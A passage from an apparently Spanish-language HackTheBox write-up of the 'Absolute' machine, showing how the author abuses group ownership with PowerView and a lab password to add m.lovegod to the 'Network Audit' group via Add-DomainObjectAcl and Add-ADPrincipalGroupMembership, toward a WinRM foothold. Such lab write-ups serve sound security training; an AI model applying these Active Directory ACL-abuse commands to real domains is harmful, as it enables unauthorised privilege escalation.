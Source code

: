 Como podemos ver en la imágen tenemos un usuario de por medio llamado WINRM_USER con el que es muy probable que pueda acceder a la máquina y ya desde ahí escalar privilegios.

* El usuario m.lovegod es dueño del grupo Network Audit al que debemos pertenecer para posteriormente migrarnos al usuario WINRM.

Para poder unirnos a este grupo debemos realizar varias cosas:

* Importar el módulo Powerview.ps1 y ejecutar los comandos que BloodHound nos ofrece para unirnos a este grupo.

![](/assets/images/HTB/Absolute-HackTheBox/21.webp)

Descargamos y pasamos a la máquina el módulo Powerview.ps1, en mi caso lo haré usando un servidor python3 desde mi máquina atacante y desde la máquina Windows lo descargaré con certutil.

Una vez estamos en la máquina Windows debemos realizar varios cambios:

* En mi caso instalé un Windows Server 2019 con el rol de AD (sin configurar nada más)
* Añadir la ip de la máquina víctima (10.10.11.181) a la configuración de red en el apartado DNS.
* Editar el archivo hosts añadiendo la ip y el dominio absolute.htb (el dc.absolute.htb no hay que añadirlo)
* Sincronizar la hora del Windows Server con la del dominio dc.absolute.htb
* Ejecutar estos comandos a través de una powershell.


```powershell
Import-Module .\PowerView.ps1 
$SecPassword = ConvertTo-SecureString "AbsoluteLDAP2022!" -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential("Absolute.htb\m.lovegod", $SecPassword)
Add-DomainObjectAcl -Credential $Cred -TargetIdentity "Network Audit" -Rights all -DomainController dc.absolute.htb -PrincipalIdentity "m.lovegod"
Add-ADPrincipalGroupMembership -Identity m.lovegod -MemberOf "Network Audit" -Credential $Cred -server dc.absolute.htb
```
